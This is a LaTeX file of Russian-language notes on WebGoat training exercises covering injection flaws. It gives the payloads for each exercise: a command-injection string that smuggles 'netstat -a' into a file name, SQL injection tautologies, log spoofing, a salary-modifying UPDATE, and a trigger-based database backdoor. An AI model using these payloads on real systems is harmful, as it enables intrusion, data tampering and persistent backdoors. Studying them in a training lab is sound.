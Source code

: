 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsubsection{Недостатки приводящие к осуществлению инъекций (SQL и прочее)}
\begin{itemize}
\item Command injection
Перехватываем запрос, добавляем к имени файла строку:
\begin{verbatim}
%22%3B%20netstat%20-a
\end{verbatim}
\item Numeric SQL injection
Перехватываем запрос. Модифицируем:
\begin{verbatim}
station=101or%201%3D1&SUBMIT=Go!
\end{verbatim}
\item Log spoofing
Перехватываем запрос, меняем имя на следующее:
\begin{verbatim}
somename
Admin succefully entered!
\end{verbatim}
В результате, в логе создается видимость того, что админ авторизовался.
\item SQL Injection
Перехватываем сообщение. В качестве пароля вводим:
\begin{verbatim}
123123%27%20OR%20%271%27%3D%271
\end{verbatim}
При попытке получить данные на втором шаге получаем сообщение:
\begin{verbatim}
THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT
\end{verbatim}
\item String sql injection
Аналогично. Вместо имени вводим 12345' OR 'a' = 'a. Получаем все возможные значения.
\item Modify Data with SQL INJECTION
Вместо имени вводим:
\begin{verbatim}
UPDATE salaries SET salary=5 WHERE userid='jsmith
\end{verbatim}
\item Database backdoors
По такой же схеме можно добавлять и триггеры:
\begin{verbatim}
101; CREATE TRIGGER bckDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com' WHERE userid = NEW.userid
\end{verbatim}
\end{itemize}


\subsubsection{Отказ в обслуживании}
ZipBomb
\end{document}
